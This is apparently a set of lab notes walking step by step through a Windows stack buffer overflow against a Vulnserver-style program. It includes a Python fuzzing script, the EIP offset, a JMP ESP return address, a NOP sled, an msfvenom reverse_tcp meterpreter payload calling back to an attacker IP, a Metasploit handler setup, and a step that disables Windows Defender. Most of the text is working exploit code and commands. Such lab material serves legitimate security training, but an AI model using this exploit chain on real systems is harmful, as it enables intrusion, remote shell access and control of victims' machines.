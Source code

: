     https://z3r0th.medium.com/a-simple-buffer-overflow-using-vulnserver-86b011eb673b
_________________________________________________________________________________________________________________
### Static Analysis
#### Performing basic analysis
    strings secureserverind.exe | more
    file secureserverind.exe
_________________________________________________________________________________________________________________
### Running the program
#### Checking the ports to see if the port we identified is listening
    netstat -anto
_________________________________________________________________________________________________________________
### Using linux to make script
#### Script is to create socket to connect to the program we identified
    vim winbuff.py
```
#!/usr/bin/env python

import socket

buf = "TRUN /.:/"
buf += "A" * 5000

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM) ## Creating Socket, IPv4 TCP
s.connect(("192.168.65.10",9999)) ## Define host and port
print s.recv(1024) ## Print to screen the response
s.send(buf) ## Send variable buf
print s.recv(1024) ## Print to screen the response
s.close() ## Close the socket
```
_________________________________________________________________________________________________________________
### Run immunitydebugger as admin
#### File > attach > select instance > attach > click run/red arrow
_________________________________________________________________________________________________________________
### Use the site to generate 5000 characters
    https://wiremask.eu/tools/buffer-overflow-pattern-generator/?
#### Copy and paste in the script replacing the "A" and dropping the * 5000
_________________________________________________________________________________________________________________
### Rewind the immunitydebugger and hit run again
#### Then rerun the script
_________________________________________________________________________________________________________________
### Next copy the EIP and paste into the register value
    https://wiremask.eu/tools/buffer-overflow-pattern-generator/?
#### To find the offset 2003
_________________________________________________________________________________________________________________
### Next update the script by deleting the 5000 generated characters and adding the two lines below
#### buf += "A" * 2003
#### buf += "BBBB"
_________________________________________________________________________________________________________________
### Rewind the immunitydebugger and run again
#### Make sure the script it saved and run it again, should get back 42424242 in the EIP field
_________________________________________________________________________________________________________________
### Can delete the "BBBB" line, just to ensure it ran properly
#### Back on the immunitydebugger run the command below in the bottom bar
    !mona modules                            ## To see the fields are vulnerable for the dll
    !mona jmp -r esp -m "essfunc.dll"        ## To locate the space in memory the dll is at
_________________________________________________________________________________________________________________
### Back on immunitydebugger after you run the second command
#### click on Window in the top and select 2  Log Data
#### Find the Results select and copy the first line (address) 625012A0
_________________________________________________________________________________________________________________
### Back on the script add the address into the script and add the nop sled
    buf += "\xa0\x12\x50\x62"
    buf += "\x90" * 15
_________________________________________________________________________________________________________________
### Now to create a shellcode for the script
#### Use your linux IP in the lhost
    msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.21.223 lport=4444 -b "\x00" -f python
_________________________________________________________________________________________________________________
### Copy everything after the first buf += b""
#### and paste below the nop sled line
_________________________________________________________________________________________________________________
### Next run msfconsole
    use multi/handler
    set payload windows/meterpreter/reverse_tcp
    set lhost 0.0.0.0
    set lport 4444
    exploit
_________________________________________________________________________________________________________________
### Go back to the windows opstation
#### Rewind immunitydebugger and run again
#### Ensure windows defend is turned off
#### Ensure everything in virus & threat protection settings are off as well
_________________________________________________________________________________________________________________
### Make sure you rewind immunitydebugger and run 
#### Make sure you write to the script then run the script


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
